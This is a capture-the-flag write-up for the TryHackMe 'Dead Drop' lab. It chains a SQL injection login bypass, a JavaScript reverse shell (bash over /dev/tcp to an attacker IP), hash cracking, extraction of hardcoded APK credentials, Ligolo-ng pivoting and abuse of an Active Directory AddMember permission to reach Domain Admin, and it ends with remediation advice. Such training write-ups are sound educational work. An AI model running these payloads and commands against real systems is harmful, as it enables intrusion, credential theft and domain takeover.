# Dead Drop Write-up

**Platform**: TryHackMe <br>
**Room**: Dead Drop (https://tryhackme.com/room/dead-drop)

## Overview

Dead Drop simulates an enterprise environment where a publicly accessible Linux web server is separated from an internal Active Directory network by a DMZ. The objective is to compromise the exposed host, pivot into the internal network, enumerate Active Directory, and escalate privileges to obtain full control of the domain.

The room demonstrates a realistic attack chain involving:

- Service and web application enumeration
- SQL Injection authentication bypass
- Arbitrary file upload leading to remote code execution
- Password hash cracking
- Static analysis of an Android application
- Network pivoting using Ligolo-ng
- Active Directory enumeration with BloodHound
- Abuse of delegated Active Directory permissions

---

## Network Overview



According to the Rules of Engagement, only the Linux web server (`192.168.11.200`) is directly accessible from the attacker's network. The workstation (`192.168.11.51`) and Domain Controller (`192.168.11.100`) are located behind a DMZ firewall and cannot be reached directly.

This segmentation mirrors many enterprise environments, where Internet-facing services are isolated from critical infrastructure. Consequently, the assessment begins by targeting the exposed web server, with the objective of establishing a pivot into the internal network before attempting to enumerate Active Directory.

---

## Initial Enumeration

The first step is to identify the services exposed by the public-facing host.

```bash
nmap -sV -sC -p- 192.168.11.200
```

Where:

- `-sV` performs service version detection.
- `-sC` executes Nmap's default NSE scripts.
- `-p-` scans all TCP ports rather than the default top 1,000.

The scan reveals two externally accessible services.



| Port | Service | Observation |
|------|---------|-------------|
| 22 | SSH | Potential management interface that may become useful if valid credentials are obtained. |
| 80 | HTTP | Public-facing web application and primary attack surface. |

Since the HTTP service presents the largest attack surface, the assessment continues with web application enumeration.

## Web Application Enumeration

With the attack surface narrowed to the web application, the next objective is to identify hidden resources that may not be linked from the application's interface.

Directory enumeration is performed using Gobuster:

```bash
gobuster dir -u "http://192.168.11.200" \
-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
-r \
-x .php,.js,.html,.py,php.bak
```

The scan identifies several interesting endpoints.



Among the discovered paths are:

- `/Login`
- `/Logout`
- `/Dashboard`

The presence of an authenticated dashboard suggests that the application relies on session-based authentication, making the login functionality a logical target for further assessment.

Navigating to the login page presents the Dead Drop authentication portal.



---

## SQL Injection Authentication Bypass

A simple authentication bypass is tested against the username field using the payload:

```text
admin' OR '1'='1
```

Any password may be supplied.



The application successfully authenticates the request and redirects the user to the dashboard, confirming that the username parameter is vulnerable to SQL Injection. This behaviour indicates that user input is incorporated into the authentication query without proper sanitisation or parameterisation.

An alternative approach would be to intercept the login request using Burp Suite and either:

- use **Intruder** with a SQL Injection payload list to identify a successful payload; or
- save the intercepted request and automate testing with **SQLMap**.

Both approaches are suitable for larger applications where manual testing becomes impractical.



---

## Dashboard Assessment

Following successful authentication, the dashboard exposes two areas of interest:

- a file upload feature;
- multiple JavaScript files used by the application.

The upload functionality is particularly interesting because insufficient validation of uploaded files may lead to remote code execution. The next objective is therefore to determine whether uploaded JavaScript files are accepted and executed by the server.

## Remote Code Execution

The authenticated dashboard provides a file upload feature together with a **Preview** option. This functionality is tested to determine whether uploaded JavaScript files are executed by the server, which could result in remote code execution.

Create a JavaScript reverse shell:

```bash
nano jsrevshell.js
```

Paste the following payload, replacing the IP address with the **tun0** IP address of your Attack Box.

```javascript
require('child_process').exec('bash -c "bash -i >& /dev/tcp/192.168.21.6/4444 0>&1"');
```

The VPN address can be obtained with:

```bash
ifconfig tun0
```

Start a Netcat listener on the Attack Box:

```bash
sudo nc -lvnp 4444
```



Upload the `jsrevshell.js` file through the web interface and select **Preview** under the **Actions** column.

A reverse shell is received by the Netcat listener, confirming that the uploaded JavaScript is executed by the server.



This provides an interactive shell running with the privileges of the web application.

---

## Local Enumeration

With initial access established, local enumeration is performed to identify sensitive files, credentials and privilege escalation opportunities.

Listing the contents of the current directory reveals a `backup` folder.

```bash
ls
app.js
backup
...
```

Navigate into the directory:

```bash
cd backup
```

Listing its contents with ```ls``` identifies a file named `shadow.bak`.

Inspection of the file reveals the account `svc-drop` together with a password hash.



The `$6$` prefix identifies the hash as **SHA-512 Crypt**, the format commonly used in Linux shadow files.

---

## Password Hash Cracking

The recovered hash is saved locally as `svcdrophash.txt` and cracked using John the Ripper together with the `rockyou.txt` wordlist.

```bash
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt svcdrophash.txt
```

SHA-512 Crypt is intentionally computationally expensive, therefore the cracking process may take some time before a password is recovered.



The recovered credentials belong to the `svc-drop` account.

---

## Obtaining a Stable Shell

During the initial Nmap scan, SSH was identified as an exposed service. Since valid credentials have now been recovered, SSH provides a significantly more stable shell than the existing reverse shell.

Connect to the target using:

```bash
ssh svc-drop@192.168.11.200
```

Authentication succeeds, providing an interactive shell as `svc-drop`.

After enumerating the user's home directory, an interesting backup file is identified.



The `pwd` command confirms that the Android application package is located at:

```text
/home/svc-drop/backup/deaddrop-mobile.apk
```

To analyse the application locally, transfer it to the Attack Box using SCP:

```bash
scp svc-drop@192.168.11.200:/home/svc-drop/backup/deaddrop-mobile.apk ./deaddrop-mobile.apk
```

The APK may contain sensitive information such as hardcoded credentials, API endpoints or configuration values. The next step is therefore to perform static analysis of the application.

## APK Reverse Engineering

Mobile applications often contain hardcoded credentials, API endpoints or configuration values intended for development and testing. Since an APK file was recovered from the compromised host, the next step is to perform static analysis.

A popular tool for decompiling Android applications into readable Java source code is **JADX**.

Download the latest release from the official repository. At the time of writing, version **v1.5.6** is available.

https://github.com/skylot/jadx/releases/tag/v1.5.6

Extract the archive, navigate to the `bin` directory and launch the graphical interface:

```bash
jadx-gui
```



Open `deaddrop-mobile.apk` and inspect the application source code.

While reviewing the package `Source code/com/deaddrop.mobile/Config`, a hardcoded production credential is identified for the user **j.harris**.



The application stores a valid Active Directory username and password directly in the source code. Hardcoded credentials represent a significant security risk, as anyone with access to the application package can recover them through static analysis.

These credentials will be used to enumerate the internal Active Directory environment.

---

# Network Pivoting with Ligolo-ng

Although the web server has been compromised, the workstation and Domain Controller remain inaccessible because they reside behind the DMZ firewall.

To reach the internal network, a Ligolo-ng tunnel is established through the compromised Linux host.

### On the Attack Box

1. Download the latest stable release of Ligolo-ng. At the time of writing, version **v0.8.3** is available:

https://github.com/nicocha30/ligolo-ng/releases/tag/v0.8.3

2. Download the agent:

```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.3/ligolo-ng_agent_0.8.3_linux_amd64.tar.gz
```

3. Download the proxy:

```bash
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.3/ligolo-ng_proxy_0.8.3_linux_amd64.tar.gz
```

4. Extract the agent:

```bash
tar xvzf ligolo-ng_agent_0.8.3_linux_amd64.tar.gz
```

5. Extract the proxy:

```bash
tar xvzf ligolo-ng_proxy_0.8.3_linux_amd64.tar.gz
```

6. Transfer the agent to the compromised web server:

```bash
scp agent svc-drop@192.168.11.200:/home/svc-drop
```

7. Start the Ligolo proxy:

```bash
sudo ./proxy -selfcert
```

8. Create a virtual interface:

```text
ifcreate --name dead-drop
```

9. Add routes for each internal host:

```text
route_add --name dead-drop --route 240.0.0.1/32
route_add --name dead-drop --route 192.168.11.51/32
route_add --name dead-drop --route 192.168.11.100/32
```

### On the Web Server

10. Make the agent executable:

```bash
chmod +x agent
```

11. Connect the agent back to the Attack Box:

```bash
./agent -connect 192.168.21.6:11601 --ignore-cert
```

Replace the IP address with the **tun0** address of your Attack Box.

### Back on the Attack Box

12. Select the active session:

```text
session
```

13. Start the tunnel:

```text
tunnel_start --tun dead-drop
```

14. Verify that the tunnel and routes have been created successfully:

```text
tunnel_list
route_list
```



With the tunnel established, traffic destined for the internal network is transparently routed through the compromised web server, allowing the Domain Controller and workstation to be accessed as if they were directly reachable.

The next phase focuses on enumerating the Active Directory environment using the credentials recovered from the APK.

# Active Directory Enumeration

With a tunnel established to the internal network and valid domain credentials recovered from the APK, the next objective is to enumerate the Active Directory environment and identify potential privilege escalation paths.

As a first step, verify connectivity to the Domain Controller.

```bash
nmap -sV -sC 192.168.11.100
```

The scan confirms that the host is a Domain Controller and exposes several Active Directory services.



Among the information gathered are:

- Domain Controller hostname: `DEADDROP-DC`
- Active Directory domain: `deaddrop.loc`

These details are required for domain enumeration.

---

## Active Directory Enumeration with BloodHound

BloodHound is used to collect information about users, groups, permissions and object relationships within the domain.

Collect the data using the credentials recovered from the APK:

```bash
bloodhound-python \
-dc deaddrop-dc.deaddrop.loc \
-d deaddrop.loc \
-u j.harris \
-p '<Password of j.harris>' \
-ns 192.168.11.100 \
-c All \
--zip
```



Import the generated ZIP file into BloodHound.

Search for the user **j.harris** and inspect the **Outbound Object Control** tab. Selecting **First Degree Object Control** reveals that the account possesses the **AddMember** permission over several privileged groups, including **Domain Admins**.



BloodHound also provides guidance on abusing this permission. By right-clicking the **AddMember** edge and selecting **Help**, Linux-specific instructions are displayed.



The **AddMember** permission allows a user to modify the membership of a security group. Since `j.harris` can add members to the **Domain Admins** group, this permission can be abused to grant the account Domain Administrator privileges.

---

## Privilege Escalation

Add `j.harris` to the **Domain Admins** group using:

```bash
/usr/bin/net rpc group addmem "Domain Admins" "j.harris" -U "deaddrop.loc/j.harris%<Password of j.harris>" -S 192.168.11.100
```

Verify that the operation completed successfully:

```bash
/usr/bin/net rpc group members "Domain Admins" -U "deaddrop.loc/j.harris%<Password of j.harris>" -S 192.168.11.100
```



An alternative approach is to add `j.harris` to the **ITSupport-Admins** group, which is itself a member of **Domain Admins**, resulting in the same effective privileges.

---

## Domain Administrator Access

With the updated group membership, connect to the Domain Controller using Evil-WinRM.

```bash
evil-winrm -i 192.168.11.100 -u j.harris -p '<Password of j.harris>'
```

Authentication succeeds, providing a remote PowerShell session on the Domain Controller.

Since `j.harris` is now a member of **Domain Admins**, the flag can be read from the Administrator's desktop.

```powershell
type 'C:\Users\Administrator\Desktop\flag.txt'
```



The assessment concludes with full compromise of the Active Directory domain.

# Remediation Recommendations

The compromise of the Dead Drop environment was achieved by chaining together several independent weaknesses. Addressing the following issues would significantly reduce the attack surface and prevent the demonstrated attack path.

| Finding | Recommendation |
|---------|----------------|
| **SQL Injection** | Use parameterised queries or prepared statements for all database interactions. Validate and sanitise user input, and avoid constructing SQL queries through string concatenation. |
| **Unrestricted File Upload** | Restrict uploaded file types using an allowlist, validate file contents rather than file extensions, and store uploaded files outside the web root. Uploaded files should never be executed by the server. |
| **Sensitive Backup Files** | Remove unnecessary backup files from production systems and ensure sensitive files cannot be accessed by unprivileged users. Apply the principle of least privilege to file permissions. |
| **Weak Password** | Enforce strong password policies and discourage passwords that are susceptible to dictionary attacks. Consider multi-factor authentication for privileged accounts. |
| **Hardcoded Credentials** | Never embed credentials within application source code or mobile applications. Store secrets securely using environment variables or a dedicated secrets management solution. Rotate exposed credentials immediately. |
| **Excessive Active Directory Permissions** | Regularly audit delegated permissions and remove unnecessary privileges. Permissions such as **AddMember** over privileged groups should be granted only where operationally required. Apply the principle of least privilege throughout the domain. |
| **Network Segmentation** | While the DMZ successfully isolated the internal network, compromise of the web server enabled pivoting. Restrict lateral movement through internal firewall rules, network monitoring, and endpoint detection to limit the impact of a compromised host. |

Implementing these recommendations would significantly reduce the likelihood of an attacker progressing from a public-facing web application to full Active Directory compromise.